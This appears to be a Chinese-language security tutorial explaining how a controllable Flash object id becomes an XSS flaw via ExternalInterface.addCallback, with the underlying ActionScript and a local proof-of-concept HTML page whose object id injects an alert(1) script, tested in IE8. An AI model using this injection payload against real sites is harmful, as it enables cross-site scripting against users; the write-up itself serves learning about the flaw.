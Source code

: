 ### Flash缺陷参数-object的id可控   
html与swf 通讯的时候，使用的是ExternalInterface.addCallback 函数，调用如下：  
``` actionScript
function a(){
  trace(“hi”);
}
```
`ExternalInterface.addCallback("myfunc",a);`
执行了函数之后，在html上可以通过使用函数名myfunc 来调用Flash中的函数a。  
addCallback 的底层实现源代码：  
``` actionScript
if ((((activeX == true)) && (!((objectID == null))))){
 
    _evalJS((((("__Flash__addCallback(document.getElementById(\"" + objectID) + "\"), \"") + functionName) + "\");"));
 
};
```
objectID 为Flash的id，functionName为函数名称即 myfunc，因此当我们插入的Flash的id可控的时候，可能会出现xss问题。  
![flash8](../pictures/flash8.png)  
本着学习的原则，本地创建了Flash文件，  
``` actionScript
function a(){
    trace("hi")
}
ExternalInterface.addCallback("myfunc",a)
```
x.html 页面：  
``` html
<object id="xsstest&quot;),(function(){if(!window.x){window.x=1;alert(1)}})(),
(&quot;"codeBase="http://fpdownload.macromedia.com/get/Flashplayer/current/swFlash.cab#version=8,0,0,0" 
classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000">
<param name="movie" value = "./addCallback.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
</object>
```
访问该界面（IE8下测试）：  
![flash9](../pictures/flash9.png)
